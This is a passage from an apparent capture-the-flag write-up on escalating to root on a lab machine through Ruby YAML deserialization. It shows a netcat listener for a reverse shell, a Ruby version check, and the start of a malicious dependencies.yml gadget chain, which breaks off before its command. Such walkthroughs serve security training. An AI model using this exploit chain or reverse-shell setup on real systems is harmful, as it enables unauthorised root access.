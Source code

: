 ```rb
    end
end
```

The `load` function is used for deserialization. Interestingly, it deserializes
the `dependencies.yml` located in the current directory, so we can specify a
custom YAML file.

The `load` function is interesting here, since it's used for deserialization. By
modifying the deserialized file, we should be able to execute arbitrary
commands! And since we can execute this script as `root`, we will get `root`'s
privileges.

## Privilege escalation (Ruby deserialization)

Deserialization is a process taking data that has been structured in a specific
format, and reconstructing it back into an object. It's the opposite of
serialization.

Since we have control over the deserialized file in this script, we should be
able to execute arbitrary commands. And since we can execute this script as
`root`, we would get `root`'s privileges!

### Preparation

First, I'll setup a listener to receive the shell.

```sh
❯ rlwrap nc -lvnp "9002"
```

Then, I'll select a payload from
[PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Insecure%20Deserialization/Ruby.md)
to exploit this vulnerability.

However, there's two payloads to choose from depending on the Ruby version in
use, so let's retrieve Precious's Ruby version.

```sh
henry@precious:~$ ruby -v
```

```
ruby 2.7.4p191 (2021-07-07 revision a21a3b7d23) [x86_64-linux-gnu]
```

Therefore, I'll choose the one for Ruby versions after `2.7.3`.

However, we still need to come up with a payload to use with it!

I want to obtain a reverse shell, so I'll choose the Base64 encoded version of
the 'Bash -i' payload from [RevShells](https://www.revshells.com/) configured to
obtain a `/bin/bash` shell.

Then, I'll create a `dependencies.yml` file to execute this payload:

```yml
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
```